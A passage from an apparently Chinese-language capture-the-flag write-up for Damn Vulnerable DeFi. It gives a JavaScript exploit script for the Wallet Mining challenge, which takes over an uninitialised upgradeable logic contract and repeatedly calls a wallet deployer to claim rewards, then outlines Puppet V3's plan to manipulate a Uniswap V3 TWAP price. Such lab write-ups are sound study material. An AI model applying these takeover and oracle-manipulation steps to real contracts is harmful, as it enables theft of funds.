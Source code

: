 此时就可以绕过`walletDeployer`的检查。从而通过发送`setup`（要求，前面有提过）通过`WalletDeployer`创建合约并绕过检查。

```javascript
const logicContract = (await ethers.getContractFactory("AuthorizerUpgradeable")).attach(logicContractAddress);
        await logicContract.connect(player).init([],[]);
        
        const hacker2 = await (await ethers.getContractFactory('HackerWalletMining2', player)).deploy();
        console.log("hacker 2 contract deployed : %s",hacker2.address);

        const calldata2 = hacker2.interface.encodeFunctionData(
            "hack(address)",[player.address]
        );

        console.log(calldata2);

        await logicContract.connect(player).upgradeToAndCall(hacker2.address,calldata2);
        
        // configure setup
        const calldata3 = new ethers.utils.Interface(["function setup(address[] calldata _owners, uint256 _threshold, address to, bytes calldata data, address fallbackHandler, address paymentToken, uint256 payment, address payable paymentReceiver)"])
                            .encodeFunctionData(
                                "setup(address[],uint256,address,bytes,address,address,uint256,address)",
                                [[player.address],
                                1,
                                "0x0000000000000000000000000000000000000000",
                                0,
                                "0x0000000000000000000000000000000000000000",
                                "0x0000000000000000000000000000000000000000",
                                0,
                                "0x0000000000000000000000000000000000000000",]
                            );
        console.log("success configured calldata3 ", calldata3);

        for (i = 0; i < 43 ; i++){
            await walletDeployer.connect(player).drop(calldata3);
        }
```

<hr />

# 14. Puppet - V3

解题思路：

Uniswap V3 喂价采用的是`time-weighted average price(TWAP)`，即随着时间比重算出加权后的价格。所以很明显，在同一笔交易内是不可能完成的了，因此闪电贷的思路可以歇歇了。

整体思路不变，先“砸盘”，等价格下来了(过一段时间)，再借不迟！
